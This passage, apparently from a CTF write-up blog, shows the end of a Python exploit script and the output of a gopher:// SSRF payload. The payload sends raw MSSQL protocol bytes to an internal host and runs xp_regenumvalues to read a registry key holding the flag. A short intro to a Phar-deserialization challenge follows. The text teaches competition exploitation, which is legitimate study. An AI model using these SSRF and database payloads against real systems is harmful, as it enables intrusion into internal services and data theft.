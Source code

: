 ```python
        "Cookie": "PHPSESSID=rhi443hsuiglkntgqf7vgdpf8l",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    r = requests.post("http://129.226.12.144/index.php", headers=h, data=d)
    t = r.text
    return t

if __name__ == "__main__":
    # print(leak_password())
    # print(ssrf_bruteforce())
    print(ssrf_run_cmd())

```

Running the script will populate the flag from the registry.

```
...
--_curl_--fopher://10.11.22.9:1433/Ad93152cc-1a4d-877b-e0ba-d1748ca3ae4e
--_curl_--gopher://10.11.22.9:1433/A%12%01%00%2F%00%00%01%00%00%00%1A%00%06%01%00%20%00%01%02%00%21%00%01%03%00%22%00%04%04%00%26%00%01%FF%00%00%00%01%00%01%02%00%00%00%00%00%00%10%01%01%0B%00%00%01%00%03%01%00%00%04%00%00t%00%10%00%00%00%00%00%00%93%9F%00%00%00%00%00%00%F0%00%00%08%E0%01%00%00%09%04%00%00%5E%00%06%00j%00%02%00n%00%24%00%B6%00%0A%00%CA%00%09%00%DC%00%04%00%E1%00%07%00%EF%00%0A%00%03%01%00%00%01%02%03%04%05%06%03%01%00%00%03%01%00%00%03%01%00%00%00%00%00%00u%00b%00u%00n%00t%00u%00s%00a%00%96%A5%86%A5%96%A5%C6%A5%D6%A5%E3%A5%D6%A5%B6%A5w%A5%B3%A5%C3%A56%A5%83%A5w%A5%E6%A56%A56%A5%C6%A5w%A5%26%A5%F6%A5%86%A5%C3%A5w%A5%C3%A5%F6%A5%F6%A5%C6%A5%C6%A5%93%A5%B6%A5%96%A56%A5%D6%A5%B6%A5%B3%A5n%00o%00d%00e%00-%00m%00s%00s%00q%00%6C%00%6C%00o%00c%00a%00%6C%00h%00o%00s%00t%00%E0%00%00%00%FFT%00e%00d%00i%00o%00u%00s%00u%00s%00_%00e%00n%00%67%00%6C%00i%00s%00h%00%01%01%00%C4%00%00%01%00%16%00%00%00%12%00%00%00%02%00%00%00%00%00%00%00%00%00%01%00%00%00E%00X%00E%00C%00U%00T%00E%00%20%00m%00a%00s%00t%00e%00r%00.%00s%00y%00s%00.%00x%00p%00_%00r%00e%00%67%00e%00n%00u%00m%00v%00a%00%6C%00u%00e%00s%00%20%00%27%00H%00K%00E%00Y%00_%00%4C%00O%00C%00A%00%4C%00_%00M%00A%00C%00H%00I%00N%00E%00%27%00%2C%00%27%00S%00o%00f%00t%00w%00a%00r%00e%00%5C%00N%001%00C%00T%00F%002%000%002%001%00%27%00%3B%00-%00-%00%20%00-%00
+ !""���<�astermaster�lE%Changed database context to 'master'.
10_11_22_9�     �4� 
us_english�pG'Changed language setting to us_english.
10_11_22_9�6tMicrosoft SQL Server��40964096��<���	�4Value��	�4Data�"flll111aaaAAAgGGGFn1ctf{CuURLLL_i111ssS_soOO0_FuUUnN}��y��--_curl_--gopher://10.11.22.9:1433/Ad93152cc-1a4d-877b-e0ba-d1748ca3ae4e
...
```

We succeeded to get the first blood on this challenge. Nice!

<img src=//harold.kim/static/blog/n1ctf-web-7.jpg>


### Easyphp

> http://43.155.59.185:53340/

This challenge was about loading an arbitrary object with the Phar metadata to load `Flag()` class and retrieve the flag.  This can be triggered from `file_exists()` function.
